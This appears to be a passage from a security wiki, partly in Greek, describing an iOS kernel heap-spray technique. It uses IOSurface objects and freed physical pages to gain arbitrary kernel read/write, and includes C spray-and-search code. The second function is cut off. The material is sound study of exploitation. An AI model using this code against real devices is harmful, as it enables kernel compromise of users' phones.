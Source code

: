 ### Step-by-Step Heap Spray Process

1. **Spray IOSurface Objects**: Ο επιτιθέμενος δημιουργεί πολλά αντικείμενα IOSurface με έναν ειδικό identifier ("magic value").
2. **Scan Freed Pages**: Ελέγχει αν κάποιο από τα αντικείμενα έχει εκχωρηθεί σε μια freed σελίδα.
3. **Read/Write Kernel Memory**: Με την παραποίηση πεδίων στο αντικείμενο IOSurface, αποκτά τη δυνατότητα για **arbitrary reads and writes** στην kernel μνήμη. Αυτό του επιτρέπει:
* Να χρησιμοποιήσει ένα πεδίο για να **διαβάσει οποιαδήποτε 32-bit τιμή** στην kernel μνήμη.
* Να χρησιμοποιήσει άλλο πεδίο για να **γράψει 64-bit τιμές**, επιτυγχάνοντας ένα σταθερό **kernel read/write primitive**.

Generate IOSurface objects with the magic value IOSURFACE\_MAGIC to later search for:
```c
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
if (*nClients >= 0x4000) return;
for (int i = 0; i < nSurfaces; i++) {
fast_create_args_t args;
lock_result_t result;

size_t size = IOSurfaceLockResultSize;
args.address = 0;
args.alloc_size = *nClients + 1;
args.pixel_format = IOSURFACE_MAGIC;

IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
io_connect_t id = result.surface_id;

(*clients)[*nClients] = id;
*nClients = (*nClients) += 1;
}
}
```
Αναζήτηση για αντικείμενα **`IOSurface`** σε μία ελευθερωμένη φυσική σελίδα:
```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
int nSurfaceIDs = 0;

for (int i = 0; i < 0x400; i++) {
spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);

for (int j = 0; j < nPages; j++) {
uint64_t start = puafPages[j];
uint64_t stop = start + (pages(1) / 16);

for (uint64_t k = start; k < stop; k += 8) {
if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
info.object = k;
info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
if (self_task) *self_task = iosurface_get_receiver(k);
goto sprayDone;
}
}
}
}

sprayDone:
for (int i = 0; i < nSurfaceIDs; i++) {
if (surfaceIDs[i] == info.surface) continue;
iosurface_release(client, surfaceIDs[i]);
}
free(surfaceIDs);

```
